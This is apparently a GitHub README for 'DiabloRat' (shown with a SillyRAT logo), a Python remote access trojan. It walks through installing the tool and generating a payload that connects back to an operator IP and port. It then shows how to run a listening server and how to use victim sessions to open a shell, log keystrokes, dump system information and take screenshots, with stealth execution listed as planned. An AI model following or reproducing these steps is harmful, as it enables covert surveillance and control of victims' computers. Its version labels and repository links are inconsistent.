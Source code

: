 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    DiabloRat
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/hash3liZer/DiabloRat/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>


## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/SWICYBERLWA7DA/DiabloRat.git
$ cd DiabloRat/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89173322-b74dc680-d5a1-11ea-8b3b-e5aa83cfbda1.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89171634-152cdf00-d59f-11ea-83a6-0344f370113a.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89172191-d9464980-d59f-11ea-988c-9986b52642e7.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
